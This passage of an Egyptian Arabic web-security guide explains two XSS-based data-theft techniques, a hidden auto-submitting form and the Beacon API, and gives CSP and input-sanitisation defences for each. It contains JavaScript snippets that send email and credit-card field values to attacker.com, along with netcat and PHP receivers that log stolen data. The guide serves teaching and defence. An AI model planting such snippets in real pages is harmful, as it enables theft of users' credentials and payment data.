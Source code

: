#### 5. **إعادة توجيه البيانات عبر فورم مخفية**
   - **إزاي بتحصل؟**
     - السكربت بيعمل فورم مخفي في الصفحة، بيحط فيه البيانات الحساسة، وبيبعت الفورم تلقائيًا لسيرفر المهاجم.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var form = document.createElement("form");
       form.method = "POST";
       form.action = "http://attacker.com/steal";
       var input = document.createElement("input");
       input.type = "hidden";
       input.name = "data";
       input.value = document.getElementById("email").value;
       form.appendChild(input);
       document.body.appendChild(form);
       form.submit();
       ```
       - `document.createElement`: بيعمل فورم ديناميكي.
       - `form.submit()`: بيبعت الفورم تلقائيًا.
     - **إعداد سيرفر المهاجم**:
       - netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_data.txt", $_POST['data'] . "\n", FILE_APPEND);
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع الفورمات من الإرسال لغير المواقع الموثوقة.
     - نظف المدخلات عشان تمنع السكربتات.

#### 6. **استخدام Beacon API لإرسال البيانات**
   - **إزاي بتحصل؟**
     - السكربت بيستخدم `navigator.sendBeacon` عشان يبعت البيانات الحساسة لسيرفر المهاجم بطريقة خفية.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var data = document.getElementById("credit-card").value;
       navigator.sendBeacon("http://attacker.com/steal", data);
       ```
       - `navigator.sendBeacon`: بيبعت البيانات في الخلفية حتى لو الصفحة اتقفلت.
     - **إعداد سيرفر المهاجم**:
       - netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_data.txt", file_get_contents("php://input") . "\n", FILE_APPEND);
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع الـ Beacon من الإرسال لغير المواقع الموثوقة.
     - راقب حركة الشبكة لو فيها طلبات Beacon غريبة.
